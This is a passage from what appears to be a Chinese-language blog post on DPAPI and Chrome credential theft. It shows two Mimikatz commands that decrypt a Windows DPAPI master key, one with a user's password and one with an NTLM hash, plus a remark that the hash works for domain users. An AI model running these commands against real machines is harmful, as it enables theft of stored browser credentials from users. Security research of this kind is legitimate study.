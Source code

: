 ```powershell
dpapi::masterkey /in:"<Path to MASTER_KEY_FILE>" /sid:"<USER_SID>" /password:"<USER_PASSWORD>" /protected
```

![image-20250929122100356](/assets/posts/2025-09-30-a-journey-into-dpapi-and-chrome-theft/image-20250929122100356.png)

如果是目标用户为域用户，也可以使用其密码的哈希值进行解密：

```powershell
dpapi::masterkey /in:"<Path to MASTER_KEY_FILE>" /sid:"<USER_SID>" /hash:"<USER_NTLM_HASH>" /protected
```
